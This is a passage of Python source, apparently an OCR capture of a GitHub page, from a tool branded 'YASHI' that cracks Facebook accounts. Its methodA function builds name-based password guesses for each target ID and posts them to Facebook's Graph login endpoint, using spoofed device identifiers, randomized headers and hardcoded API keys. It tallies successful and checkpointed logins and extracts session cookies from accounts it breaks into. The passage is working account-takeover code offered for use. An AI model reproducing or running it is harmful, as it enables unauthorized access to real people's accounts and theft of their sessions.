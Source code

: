             os.system('clear')
            print(logo)
            print('Try Again ...')
            time.sleep(2)
            main_crack().crack(id)
            
    def methodA(self, sid, name, psw):
        try:
            global oks,cps,loop
            sys.stdout.write(f"\r {S}[YASHI] {loop} | M1 OK/CP {len(oks)}/{len(cps)} | {S}{'{:.0%}'.format(loop/float(len(self.id)))}{S}")
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                with requests.Session() as session:
                    data = {"adid": str(uuid.uuid4()),
"format": "json",
"device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": sid,
"password": ps,
"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",
"meta_inf_fbmeta": "",
"advertiser_id": str(uuid.uuid4()),
"currently_logged_in_userid": "0",
"locale": "en_GB",
"client_country_code": "GB",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d"}
                headers = {'User-Agent': randBuildvsskj(),
'Content-Type': 'application/x-www-form-urlencoded',
'Host': 'graph.facebook.com',
'X-FB-Net-HNI': str(random.randint(20000, 40000)),
'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',
'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',}
                q = session.post("https://b-graph.facebook.com/auth/login",data=data, headers=headers, allow_redirects=False).json()
                if 'session_key' in q:
                    ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"]);YASHIb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-");cookie = f"sb={YASHIb};{ckkk}"